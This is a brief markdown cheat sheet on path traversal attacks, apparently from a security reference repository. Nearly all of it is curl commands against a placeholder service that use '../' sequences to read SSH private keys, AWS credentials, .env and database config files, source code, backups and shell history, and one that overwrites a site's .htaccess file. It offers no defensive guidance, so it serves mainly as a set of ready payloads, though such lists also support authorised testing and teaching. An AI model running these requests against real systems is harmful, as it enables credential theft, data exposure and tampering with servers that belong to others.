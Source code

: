 # Path Traversal

## Table of Contents
- [Information Disclosure](#information-disclosure)
- [Arbitrary File Modification](#arbitrary-file-modification)

## Information Disclosure

### Credentials used for remote access can be exposed.

- SSH key file exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../home/user/.ssh/id_rsa
   ```

- AWS credential exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../home/user/.aws/credentials
   ```
  
### Sensitive information used in project can be exposed.

- Hard-coded secret information exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../config/db_config.php
   ```

- Source code exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../app.js
   ```

- Application’s environment variable information exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../.env
   ```

- Backup file exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../backup/backup.zip
   ```

- Environment variable exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../home/user/.bashrc
   ```

- Command history exposure
   ```bash
   curl https://[VULNERABLE-SERVICE]/read?filename=../../../../home/user/.bash_history
   ```

## Arbitrary File Modification

### Key files can be overwritten or deleted.

- Overwrite .htaccess file
   ```bash
   curl https://[VULNERABLE-SERVICE]/upload?filename=../../../../.htaccess
   ```
